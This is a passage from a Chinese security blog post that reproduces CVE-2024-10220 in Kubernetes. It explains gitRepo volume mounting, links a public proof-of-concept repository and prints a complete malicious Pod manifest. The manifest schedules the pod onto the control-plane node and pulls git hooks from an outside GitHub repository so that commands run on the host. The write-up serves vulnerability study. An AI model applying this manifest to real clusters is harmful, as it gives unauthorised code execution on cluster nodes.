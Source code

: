   
④ 将 Git 仓库内容挂载到容器中：  
- 完成git clone  
和git checkout  
后，Kubelet 会将仓库的内容作为卷挂载到 Pod 中容器的文件系统。容器可以通过指定的路径访问这些文件。    
## 6 漏洞复现  
  
这里我借助开源 POC 进行实操演示，  
https://github.com/mochizuki875/CVE-2024-10220-githooks  
。  
  
POC 是以下方 echo 命令来判断是否攻击成功的，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rEmMwdZTjBHY8aGaWIEfxpwWGYibBpWsG71ibxicGYOr16pL3erGMEMhnWK7k9iabnRubtj4cGFq31MzMykAJRmTuA/640?wx_fmt=png&from=appmsg "")  
  
POC 库中 config 文件定义了bare = false  
，标识该仓库是一个非裸仓库，非裸仓库是会包含工作目录和 .git 目录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rEmMwdZTjBHY8aGaWIEfxpwWGYibBpWsGkdDWXm0hKicOribkDHOoxHdqaNxqC4nqWKR81xzMZMlAXmaf229NcoeQ/640?wx_fmt=png&from=appmsg "")  
  
测试环境：集群版本 v1.30.0；节点主机上需要安装 Git 并正确配置 $PATH。恶意 Pod 配置如下：  
```
echo 'apiVersion: v1
kind: Pod
metadata:
  name: cve-2024-10220-gitrepo
spec:
  nodeName: demo-control-plane # 强制将POD调度到Master上
  containers:
  - image: docker.io/library/busybox:1.31.1
    name: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - mountPath: /gitrepo
      name: git-volume
  terminationGracePeriodSeconds: 0
  volumes:
  - name: git-volume # 恶意配置
    gitRepo:
      repository: https://github.com/mochizuki875/CVE-2024-10220-githooks.git
      revision: master
      directory: cve-2024-10220-gitrepo/.git' | kubectl apply -f -
```  
  
Pod 创建成功。(建议使用 Gitee 拉取 GitHub 中 POC 仓库，以免 POC 拉取不下来)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rEmMwdZTjBHY8aGaWIEfxpwWGYibBpWsGS53wpY2z1w6677fqs0Cibxcy1ib7ibuHZJEUd2hz9hbCfx1zD5yhujibNw/640?wx_fmt=png&from=appmsg "")  
  
成功在Master节点上执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rEmMwdZTjBHY8aGaWIEfxpwWGYibBpWsGAXjLnficDSUiaM0LvNCW93bPSv15Licbrye31F5KKTy62adOlA3HtEmkA/640?wx_fmt=png&from=appmsg "")  
## 7 漏洞核心  
  
